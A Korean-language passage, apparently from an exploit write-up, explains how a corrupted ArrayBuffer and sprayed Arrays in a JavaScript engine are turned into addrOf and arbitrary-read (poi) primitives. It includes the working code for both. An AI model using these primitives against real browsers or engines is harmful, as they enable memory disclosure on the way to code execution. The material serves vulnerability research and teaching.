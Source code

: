 `FAKE_STR`과 `FAKE_DV`는 변조된 `ArrayBuffer`의 데이터 시작 주소인 0x20000058로부터 각각 0x100, 0x180 만큼 떨어진 위치에 구성합니다.

## 3. AddrOf & poi Primitives

### AddrOf Primitive

임의의 Javascript 오브젝트의 주소를 유출하기 위한 addrof를 변조된 `ArrayBuffer`(`corruptedTypedArr`)와 `Array`(`modifiedArr`)를 통해 구현할 수 있습니다. 

```jsx
var modifiedArr = null;

for (var i = 0; i < arrs.length; i++) {
    if (arrs[i][0] == 0x47484951) {
        modifiedArr = arrs[i];
        break;
    }
}

function addrOf(obj) {
    modifiedArr[0] = obj;
    addr = corruptedTypedArr[arrStart + 4];
    return addr;
}
```

위 코드에서는 스프레이된 `Array`들을 순회하며 `Array[0]`이 원본인  0x47484950이 아니라 변조된 0x47484951인 `Array`를 찾아내고 이를 `modifiedArr`에 대입합니다. `corruptedTypedArr[arrStart + 4]`로 데이터를 읽으면 `modifiedArr[0]`에 저장된 jsval의 데이터가 읽히게 됩니다.

`addrOf` 함수에서는 이를 이용하여 `modifiedArr[0]`에 주소를 유출할 오브젝트를 대입하고 `corruptedTypedArr[arrStart + 4]`로 여기에 쓰인 오브젝트의 주소를 읽어 반환합니다.

### poi Primitive

`modifiedArr[1]`은 원본 String 오브젝트가 아닌 `corruptedTypedArr`에 구성된 Fake String을 가리키고 있습니다. 이를 이용하면 임의의 주소에서 데이터를 문자열로 읽어오는 것이 가능합니다

```jsx
const FAKE_STR_START = 0x40;

function s2h(s) {
    var n1 = s.charCodeAt(0);
    var n2 = s.charCodeAt(1);
    return ((n2 << 16) | n1) >>> 0;
}

function poi(addr) {
    // leak values at addr by setting it to string ptr
    corruptedTypedArr[FAKE_STR_START + 1] = addr;
    val = s2h(modifiedArr[1]);
    return val;
}
```
